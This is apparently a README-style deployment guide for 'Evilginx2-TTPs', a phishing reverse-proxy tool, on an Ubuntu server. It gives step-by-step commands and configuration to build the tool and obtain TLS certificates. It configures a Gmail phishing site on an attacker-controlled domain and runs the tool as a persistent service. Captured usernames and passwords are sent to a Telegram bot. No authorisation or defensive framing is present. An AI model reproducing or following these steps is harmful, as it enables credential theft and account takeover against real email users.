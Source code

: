 # Evilginx2-TTPs Deployment Guide for Ubuntu Server

## Prerequisites

1. Ubuntu Server 20.04 LTS or newer
2. Root or sudo access
3. A domain name pointing to your server's IP address
4. SSL/TLS certificates (Let's Encrypt recommended)
5. Telegram Bot Token and Chat ID for notifications

## 1. System Setup

```bash
# Update system
sudo apt update && sudo apt upgrade -y

# Install required packages
sudo apt install -y golang git build-essential wget certbot python3-certbot-nginx

# Set up Go environment
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Create Evilginx2 directory
mkdir -p /opt/evilginx2
```

## 2. Install Dependencies

```bash
# Install Go dependencies
sudo apt install -y golang-go

# Install Go 1.16 or newer if needed
cd /tmp
wget https://golang.org/dl/go1.16.15.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.16.15.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
```

## 3. Clone and Build Evilginx2

```bash
# Clone repository
cd /opt/evilginx2
git clone https://github.com/aalex954/evilginx2-TTPs.git .

# Build Evilginx2
go build -o evilginx2
```

## 4. Configure SSL/TLS

```bash
# Install Certbot
sudo apt install -y certbot python3-certbot-nginx

# Obtain SSL certificate
sudo certbot certonly --standalone -d your-domain.com
```

## 5. Configure Evilginx2

Create `/opt/evilginx2/config.yaml`:

```yaml
server:
  ip: "0.0.0.0"

site_domains:
  gmail: "mail.your-domain.com"
  # Add other sites as needed

sites_enabled:
  gmail: true
  # Enable other sites as needed

sites_hidden:
  gmail: false
  # Set to true to hide from management interface

proxy_enabled: false

telegram:
  enabled: true
  bot_token: "YOUR_TELEGRAM_BOT_TOKEN"
  chat_id: "YOUR_TELEGRAM_CHAT_ID"
```

## 6. Set Up Systemd Service

Create `/etc/systemd/system/evilginx2.service`:

```ini
[Unit]
Description=Evilginx2 Service
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/opt/evilginx2
ExecStart=/opt/evilginx2/evilginx2
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

## 7. Configure Firewall

```bash
# Allow HTTP/HTTPS
sudo ufw allow 'Nginx Full'

# Allow DNS
sudo ufw allow 53/tcp
sudo ufw allow 53/udp

# Enable firewall
sudo ufw enable
```

## 8. Start and Enable Service

```bash
# Reload systemd
sudo systemctl daemon-reload

# Start Evilginx2
sudo systemctl start evilginx2

# Enable to start on boot
sudo systemctl enable evilginx2

# Check status
sudo systemctl status evilginx2
```

## 9. Verify Installation

1. Access Evilginx2 management interface at: https://your-domain.com:8080
2. Default credentials: admin/evilginx
3. Verify Telegram notifications by testing with a known username/password

## Security Recommendations

1. Change default admin password immediately
2. Enable fail2ban for additional security
3. Keep system and Evilginx2 updated
4. Regularly back up configuration files
5. Monitor system logs for suspicious activity

## Troubleshooting

1. Check Evilginx2 logs:
```bash
journalctl -u evilginx2 -f
```

2. Verify SSL certificates:
```bash
sudo certbot certificates
```

3. Check if port 8080 is open:
```bash
sudo netstat -tulpn | grep 8080
```

## Maintenance

1. Update certificates:
```bash
sudo certbot renew
```

2. Update Evilginx2:
```bash
cd /opt/evilginx2
git pull
make build
sudo systemctl restart evilginx2
```
